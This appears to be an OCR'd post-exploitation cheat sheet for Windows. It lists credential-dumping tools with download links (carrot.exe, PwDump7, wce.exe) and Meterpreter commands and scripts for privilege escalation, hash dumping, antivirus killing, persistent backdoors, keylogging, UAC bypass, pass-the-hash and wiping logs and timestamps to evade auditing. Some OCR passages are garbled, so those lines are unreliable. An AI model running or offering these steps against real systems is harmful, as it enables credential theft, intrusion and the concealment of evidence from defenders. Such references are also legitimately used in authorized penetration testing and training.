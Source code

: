 ```
Third Party Portable Tools

 (must be contained in a single executable)

REMEMBER: DO NOT RUN BINARIES YOU HAVEN’T VETTED - BINARIES BELOW ARE NOT BEING VOUCHED FOR IN ANY WAY AS THIS DOCUMENT CAN BE EDITED BY ANYONE
Command Link to download  Description
carrot.exe /im /ie /ff /gc /wlan /vnc /ps /np /mp /dialup /pwdump http://h.ackack.net/carrot-exe.html -invasive- Recovers a bunch passwords.
PwDump7.exe > ntlm.txt  http://www.tarasco.org/security/pwdump_7/ -invasive- Dumps Windows NTLM hashes. Holds the credentials for all accounts.
http://www.nirsoft.net/utils/nircmd.html  A collection of small nifty features.
wce.exe http://www.ampliasecurity.com/research/wce_v1_2.tgz Pull NTLM hashes from login sessions out of memory, steal ks tickets from activerberoe processes and apply them to others.

(Page break just so we can have the straight up cmds on their own)

Meterpreter Commands
ps  (show running processes and their associated users/id numbers)
getuid
getpid
getprivs  (shows current privileges)
getsystem Attempts to get SYSTEM using 4 methods, the last being a local exploit called Kitrap0d. This can sometimes be caught by host based IDS systems and even in rare occasions blue screen the machine.
getsystem - (place holder for targetd getsys) If anyone wants to fill this in before I can please do
sysinfo
timestomp Remove/screw up timestamps if you are good enough this messes up audit tools
clearev Clear A
hashdump  dump SAM file hashes for pass the hash or cracking
migrate [pid] Move from exploited process into another process

Useful Meterpreter Scripts
killav.rb (Meterpreter script that kills all Antivirus processes.)
winenum.rb (Retrieves all kinds of information about the system including environment variables,  interfanetworkces, print_line "routing, user accounts, and much more.)
scraper.rb (harvest system info including network shares, registry hives and password hashes.)
persistence.rb (Meterpreter Script for creating a persistent backdoor on a target host.)
keylogrecorder.rb (This script will start the Meterpreter Keylogger and save all keys.)
getgui.rb (Windows Remote Desktop Enabler Meterpreter Script.)
For a complete list please see: http://metasploit.com/svn/framework3/trunk/scripts/meterpreter/

Useful Meterpreter Post Modules

post/windows/gather/smart_hashdump
post/windows/gather/credentials/vnc
post/windows/escalate/bypassuac (mixed results)

Useful Multi-Step Techniques

“Pass The Hash” attack (Gain access to other computers with stolen hashes, no cracking involved)
Token impersonation via incognito
```
